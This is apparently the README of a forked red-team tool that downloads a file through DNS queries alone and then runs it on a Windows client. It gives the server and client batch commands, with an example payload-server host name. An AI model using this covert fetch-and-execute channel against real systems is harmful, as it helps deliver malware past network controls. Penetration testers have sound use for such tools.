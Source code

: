 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserver_ _fileparts_ _public dns server_**

Example: *client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8*

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:

Daniel Vinakovsky
